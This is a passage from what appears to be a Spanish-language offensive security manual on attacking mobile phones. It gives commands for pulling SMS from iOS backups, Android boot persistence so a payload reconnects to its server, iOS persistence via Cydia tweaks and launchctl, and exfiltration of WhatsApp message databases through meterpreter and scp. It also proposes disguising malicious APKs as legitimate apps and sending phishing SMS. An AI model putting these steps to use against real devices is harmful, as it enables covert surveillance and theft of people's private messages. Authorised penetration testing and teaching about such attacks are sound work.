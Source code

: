 Ejemplo de extracción de mensajes SMS:

```bash
idevicebackup2 backup ./backup
sqlite3 ./backup/Library/SMS/sms.db "SELECT text FROM message;"
```

---

## 17.5. Persistencia en Dispositivos Móviles

### Android

Modificar el payload para ejecutarse al inicio:

```xml
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED" />
```

En `MainActivity.java`:

```java
public void onReceive(Context context, Intent intent) {
    if (intent.getAction().equals(Intent.ACTION_BOOT_COMPLETED)) {
        // Reconexión al servidor
    }
}
```

### iOS

* Instalar **tweak** en Cydia que ejecute script al inicio.
* Usar `launchctl` para añadir tareas persistentes.

---

## 17.6. Exfiltración de Datos

### Desde Android

```plaintext
meterpreter > download /sdcard/WhatsApp/Databases/msgstore.db
```

### Desde iOS

```bash
scp root@IP_DEL_IPHONE:/private/var/mobile/Containers/Data/Application/com.whatsapp/msgstore.db .
```

---

## 17.7. Ataques vía Ingeniería Social

* Enviar la APK o IPA maliciosa disfrazada de app legítima.
* Usar phishing SMS con enlace a instalación.
* Integrar payload en actualizaciones falsas.

---